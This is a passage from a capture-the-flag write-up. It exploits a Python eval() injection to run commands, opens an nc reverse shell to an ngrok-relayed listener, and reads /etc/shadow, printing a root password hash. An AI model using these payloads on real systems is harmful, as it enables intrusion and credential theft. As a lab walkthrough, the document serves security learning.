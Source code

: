 Sweet! `eval()` = free shell.
By running the following code, we can execute commands on the target machine: `eval('__import__("subprocess").getoutput("<COMMAND>")')`.
<br />
We can get the flag by running `eval('__import__("subprocess").getoutput("cat /home/intern/user.txt")')`, but it would be more interesting if we get bind or reverse shell. There are many different ways of opening any of these shells, but as the system has `nc`, I will go with it.
<br />
So, I will use reverse shell using ngrok to bypass my home router firewall and to keep my public IP private and `pwncat` for more stable shell.
### On our machine
```
ngrok tcp 4444
pwncat -l 0.0.0.0 4444 --self-inject /bin.bash:<NGINX_IP>:<NGINX_PORT>
```
### On the victim's machine
```
eval('__import__("subprocess").getoutput("nc <NGROK_IP> <NGROK_PORT> -e /bin/bash")')
```
![Reverse Shell](pics/rev_shell.png)
And voila! We have a shell. Even if the shell gets closed for some reason (internet drops, we press `Ctl-C` by accident, etc.), the only thing we need to do is to open a new listener (`pwncat -l 0.0.0.0 4444`), and we will get connected.
<br />
The only thing left is to get the user flag.
```
cat /home/intern/user.txt
```
`Flag: cueh{0h...I_gu3ss_y0u_can_r3vers3_shell_via_3val}`

## Challenge 5: Root Flag
Now, on the root flag!
<br />
No further enumeration is required than `cat /etc/shadow`.
```
root:$6$czitf7EkuZDKvo1G$Fzuxy.As6BxQhNyUV0zq9z0ehkb3yhzSAOFekJ1jpf.J3/3wJ.v.ARwzq28tQp2XEI81tl.hb6bWWY29JLxnX0:18891:0:99999:7:::
daemon:*:18799:0:99999:7:::
bin:*:18799:0:99999:7:::
sys:*:18799:0:99999:7:::
sync:*:18799:0:99999:7:::
games:*:18799:0:99999:7:::
man:*:18799:0:99999:7:::
lp:*:18799:0:99999:7:::
mail:*:18799:0:99999:7:::
news:*:18799:0:99999:7:::
uucp:*:18799:0:99999:7:::
proxy:*:18799:0:99999:7:::
```